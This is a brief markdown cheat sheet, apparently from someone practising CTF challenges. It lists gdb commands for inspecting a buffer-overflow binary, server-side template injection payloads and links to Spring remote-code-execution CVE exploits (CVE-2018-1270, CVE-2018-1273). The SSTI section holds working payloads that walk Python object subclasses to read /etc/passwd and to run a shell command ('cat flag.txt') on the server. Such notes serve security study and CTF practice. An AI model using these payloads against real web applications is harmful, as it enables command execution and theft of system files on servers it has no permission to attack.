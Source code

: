 # CADT Memo

## 시스템 프로그래밍

```bash
gdb ./bof
> info functions
> disas main
> x/40x $esp
> x/x $eip
```

## SSTI

```
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

```

## Spring RCE

[cve-2018-1270](https://steemit.com/kr/@huti/spring-messaging-rce-cve-2018-1270)
[cve-2018-1273](https://github.com/jas502n/cve-2018-1273)